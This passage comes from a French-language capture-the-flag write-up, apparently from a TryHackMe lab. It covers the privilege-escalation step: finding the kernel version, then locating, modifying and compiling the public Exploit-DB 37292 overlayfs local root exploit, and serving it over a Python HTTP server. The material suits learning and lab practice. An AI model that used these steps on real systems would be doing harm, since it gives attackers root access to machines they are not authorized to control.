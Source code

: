 On obtient un shell.    

## Task 4 Privilege Escalation ##

**Enumerate the machine manually**

**Whats the kernel version?**

```bash
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

On a la verion du kernel avec uname. 

La réponse est 3.13.0-32-generic   

**You can download the exploit from here: https://www.exploit-db.com/exploits/37292**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit 37292
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                                                                                        | linux/local/37292.c
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

tim@kali:~/Bureau/tryhackme/write-up$ cp /usr/share/exploitdb/exploits/linux/local/37292.c ./

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/gcc/cc/g' 37292.c 

tim@kali:~/Bureau/tryhackme/write-up$ cc 37292.c -o exploit
37292.c: In function ‘main’:
37292.c:106:12: warning: implicit declaration of function ‘unshare’ [-Wimplicit-function-declaration]
  106 |         if(unshare(CLONE_NEWUSER) != 0)
      |            ^~~~~~~
37292.c:111:17: warning: implicit declaration of function ‘clone’; did you mean ‘close’? [-Wimplicit-function-declaration]
  111 |                 clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
      |                 ^~~~~
      |                 close
37292.c:117:13: warning: implicit declaration of function ‘waitpid’ [-Wimplicit-function-declaration]
  117 |             waitpid(pid, &status, 0);
      |             ^~~~~~~
37292.c:127:5: warning: implicit declaration of function ‘wait’ [-Wimplicit-function-declaration]
  127 |     wait(NULL);

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...


```